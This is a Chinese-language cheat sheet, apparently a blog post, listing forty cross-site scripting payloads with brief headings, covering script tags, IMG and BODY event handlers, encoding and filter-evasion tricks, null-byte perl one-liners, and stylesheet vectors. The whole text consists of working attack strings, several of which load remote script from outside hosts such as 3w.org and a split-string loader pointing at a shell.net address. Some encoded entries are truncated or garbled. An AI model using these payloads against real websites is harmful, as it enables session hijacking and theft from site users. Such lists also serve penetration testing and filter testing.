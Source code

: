 # XSS payload


总结了常用的XSS payload
<!--more-->

1.普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

2.IMG标签XSS使用JavaScript命令

    <IMG SRC=1 ONERROR=alert('XSS')>

3.IMG标签无分号无引号

    <IMG SRC=javascript:alert('XSS')>

4.IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert('XSS')>

5.HTML编码(必须有分号)

    <IMG SRC=javascript:alert("XSS")>

6.修正缺陷IMG标签

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

7.formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

8.UTF-8的Unicode编码(计算器)

    <IMG SRC=jav..省略..S')>

9.7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

10.十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

11.嵌入式标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

12.嵌入式编码标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

13.嵌入式换行符

    <IMG SRC="jav ascript:alert('XSS');">

14.嵌入式回车

    <IMG SRC="jav ascript:alert('XSS');">

15.嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC="javascript:alert('XSS')">

16.解决限制字符(要求同页面)

    <script>z='document.'</script>
    <script>z=z+'write("'</script>
    <script>z=z+'<script'</script>
    <script>z=z+' src=ht'</script>
    <script>z=z+'tp://ww'</script>
    <script>z=z+'w.shell'</script>
    <script>z=z+'.net/1.'</script>
    <script>z=z+'js></sc'</script>
    <script>z=z+'ript>")'</script>
    <script>eval_r(z)</script>

17.空字符

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

18.空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

19.Spaces和meta前的IMG标签

    <IMG SRC=" javascript:alert('XSS');">

20.Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

21.Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

22.Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

23.双开括号

    <<SCRIPT>alert(a.sourse);//<</SCRIPT>

24.无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

25.无结束脚本标记

    <SCRIPT SRC=//3w.org/XSS/xss.js>

26.半开的HTML/JavaScript XSS

    <IMG SRC="javascript:alert('XSS')"

27.双开角括号

    <iframe src=http://3w.org/XSS.html >

28.无单引号、双引号、分号

    <SCRIPT>a=/XSS/ alert(a.source)</SCRIPT>

29.换码过滤的JavaScript

    \";alert('XSS');//

30.结束Title标签

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

31.Input Image

    <INPUT SRC="javascript:alert('XSS');">

32.BODY Image

    <BODY BACKGROUND="javascript:alert('XSS')">

33.BODY标签

    <BODY('XSS')>

34.IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

35.IMG Lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

36.BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

37.STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

38.远程样式表

    <LINK REL="stylesheet" HREF="http://3w.org/xss.css">

39.List-style-image(列表式)

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

40.IMG VBscript

    <IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS
